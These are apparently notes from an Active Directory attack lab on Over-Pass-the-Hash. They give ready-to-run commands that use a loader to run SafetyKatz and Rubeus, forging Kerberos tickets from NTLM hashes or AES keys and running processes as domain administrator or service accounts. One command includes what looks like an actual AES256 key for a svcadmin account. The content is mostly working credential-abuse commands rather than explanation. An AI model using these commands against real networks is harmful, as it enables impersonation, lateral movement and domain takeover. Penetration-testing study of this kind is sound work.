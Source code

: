 Over Pass the hash (OPTH) generate tokens from hashes or keys - Kerberos only

> [!NOTE] **NOTE**
> Difference between `PTH` and `OPTH` is PTH` `uses local users and `OPTH` uses a domain users credentials to generate tickets and run processes in their context

Over Pass the hash (OPTH) generate tokens from hashes or keys. Needs
elevation 
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "sekurlsa::pth /user:administrator /domain: dollarcorp.moneycorp.local/aes256:<aes256keys> /run:cmd.exe" "exit"
```

The above commands starts a process with a logon type 9 (same as runas
/netonly). This means that if you run a `whoami` it will still show as the low priv user, but when you access domain resources it will use the domain administrator credentials.

Rubeus (does not need elevation) - this overwrites your current tickets
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:administrator /rc4:<ntlmhash> /ptt
```

Elevation required to create a new process
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```